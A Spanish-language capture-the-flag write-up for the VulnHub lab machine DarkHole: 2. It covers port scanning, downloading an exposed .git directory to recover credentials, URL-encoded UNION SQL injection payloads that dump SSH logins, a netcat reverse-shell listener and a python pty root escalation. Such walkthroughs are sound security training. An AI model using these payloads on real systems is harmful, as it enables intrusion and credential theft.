# VulnHub - DarkHole: 2 Writeup

## Primer paso: Escaneo de puertos
Anotamos nuestra IP

```bash
sudo ifconfig
```



En este caso será 192.168.226.128

Luego, es necesario encontrar la máquina a vulnerar. Esto se puede hacer con arp-scan o nmap. En este caso se le pedirá a nmap que escanee todas las IPs en nuestro rango.

```bash
nmap 192.168.226.0-255
```



- 192.168.226.2 :Tiene abierto el puerto 53, que se usa para DNS, por lo que se descarta esta máquina.
- 192.168.226.128: Es la máquina atacante.
- 192.168.226.130: Es la única máquina que queda, además tiene abiertos los puertos 22 y 80 (SSH y una página web)

Realizamos u n escaneo más profundo con:

```bash
nmap -A -v -n 192.168.226.130
```



Y obtenemos que existe un directorio .git accesible a través del puerto 80

## Segundo paso: Encontrar la vulnerabilidad web

Accedemos a su página web y vemos que en este caso no tiene disponible una pestaña para registrarnos:



Sin embargo, este panel no es vulnerable a SQl injection.

Esta página tiene un directorio .git. Nos lo descargamos con wget para ver los cambios y su código.

```bash
wget -r http://192.168.226.130/.git/
```

Para ver los cambios usaremos:

```bash
git log --oneline
```



Vemos que en el commit anterior (a4d900a), en login.php estaban las credenciales por defecto. Vamos a ver los cambios de ese commit:

```bash
git show a4d9
```



La línea importante es la siguiente:

```php
if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
```

Esta línea se añadió en este commit, pero se eliminó en el siguiente, probamos sus credenciales para acceder. Nos llevará a un panel de control donde podremos ver el usuario:



De nuevo, se envía por parámetro el id (?id=1). En este caso, al cambiar el id a 2 se nos mostrará la plantilla que carga los datos. Esto es importante.

## Tercer paso: Explotar SQL Injection
Interceptamos la carga del usuario 1 y la enviamos al repetidor:



Al modificar los campos del submit no funcionará, pero se puede modificar la petición GET para introducir SQL tras el id.
Gracias a ello, ahora sabemos que la tabla que está consultando la base de datos tiene 6 columnas:



La columna 1 es el id de la fila, pero la columna 4 no la usa la plantilla. Aun así vamos a hacer un mapa de la base de datos cambiando un número por una función:
Es muy importante revisar varias veces los datos y codificarlos a URL una sola vez.

- database() Nos dará el nombre de la base de datos. darkhole_2
- union+select+1,group_concat(schema_name),3,4,5,6+from+information_schema.schemata--+- Muestra todas las bases de datos. mysql,information_schema,performance_schema,sys,darkhole_2
En este caso sólo nos interesa la base de datos darkhole_2
- '+union+select+1,group_concat(table_name),3,4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+- Muestra las tablas de la base de datos darkhole_2. ssh,user
Los datos de la tabla ssh pueden ser interesantes.
- '+union+select+1,group_concat(column_name),3,4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- para ver el nombre de las columas. id pass user
La columna id no nos interesa, tenemos que extraer los datos de user y pass.
- '+union+select+1,group_concat('usuario:+',user,'pass:+',pass),3,4,5,6+from+ssh--+- Extrae el usuario y la contraseña del id 1 de la tabla ssh.



Hay que tener especial cuidado con las comillas, en el último caso el nombre de la tabla no lleva comillas, pero en el resto sí. Esto depende si va detrás de un from o de un = (%3d encodeado a URL).

Ya tenemos entonces el usuario y la contraseña para conectarnos por SSH: jehad y fool.

## Cuarto paso: Escalar privilegios con SSH
Nos conectamos por SSH a través del terminal con el siguiente comando:

```bash
ssh jehad@192.168.226.130
```

Al haber enterado con un usuario distinto a www-data, podemos ver su historial de comandos:

```bash
cat .bash_history | less
```



Al parecer, hay levantado en el puerto 9999 un servidor web levantado. Este puerto no fue detectado con netcat porque no es accesible desde el exterior.

Podemos hacer un port forwarding desde nuestra consola con SSH:

```bash
ssh jehad@192.168.226.130 -L 9999:localhost:9999
```
Ahora, accediendo a http://127.0.0.1:9999/ veremos que acepta el parámetro cmd para ejecutar comandos.



El usuario que corre el servicio es losy, podría ser interesante acceder a este. Para ello creamos una web shell.

Abrimos otra consola y escuchamos con netcat:

```bash
nc -lvnp 8888
```

Y entramos en la página [https://www.revshells.com/](RevShells) para generar la consola.

En este caso, funcionó la siguiente configuración:



En la carpeta /home/losy encontramos la primera flag:




De nuevo, viendo el histórico de comandos, encontramos una contraseña:

```bash
cat .bash_history | less
```



Ahora que tenemos la contraseña de losy, vamos a consultar qué podemos ejecutar como root:

```bash
sudo -l
```


Podemos ejecutar python. Con él podemos darnos acceso a la consola de root. Creamos un archivo con el siguiente contenido o lo ponemos en el interprete de python:

```python
import pty;
pty.spawn("/bin/bash")
```



Con esto podemos acceder a la flag:


